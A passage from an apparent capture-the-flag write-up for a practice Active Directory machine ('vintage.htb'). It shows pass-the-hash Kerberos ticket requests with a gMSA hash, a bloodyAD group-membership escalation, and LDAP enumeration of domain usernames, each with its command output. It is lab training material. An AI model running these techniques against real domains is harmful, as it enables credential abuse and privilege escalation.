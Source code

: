 Thanks to this we use it to get a Kerberos ticket from the **Active Directory** domain controller using a known GMSA account hash

```bash
impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:51434c5b357ff89c5f85d994a27f7339
```

```bash
❯ impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:51434c5b357ff89c5f85d994a27f7339
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in GMSA01$.ccache
```

And we export it again

```bash
export KRB5CCNAME=GMSA01\$.ccache
```

Then we add **P.Rosa** to **SERVICEMANAGERS**, use the credentials from **GMSA** and then generate our own credentials as follows

```bash
bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
```

```bash
❯ bloodyAD --host dc01.vintage.htb -d "VINTAGE.HTB" --dc-ip 10.10.11.45 -k add groupMember "SERVICEMANAGERS" "P.Rosa"
[+] P.Rosa added to SERVICEMANAGERS
```

With this command we change the password
```bash
impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb
```

```bash
❯ impacket-getTGT vintage.htb/P.Rosa:Rosaisbest123 -dc-ip dc01.vintage.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in P.Rosa.ccache
```

And we export again for Kerberos to use

```bash
export KRB5CCNAME=P.Rosa.ccache 
```

We are trying to use this ticket to list the users that do not need Kerberos realm authentication, we first generate a list of usernames of the users in the domain with the following command

```bash
ldapsearch -x -H ldap://10.10.11.45 -D "P.Rosa@vintage.htb" -w "Rosaisbest123" -b "DC=vintage,DC=htb" "(objectClass=user)" sAMAccountName | grep "sAMAccountName:" | cut -d " " -f 2 > usernames.txt   
```
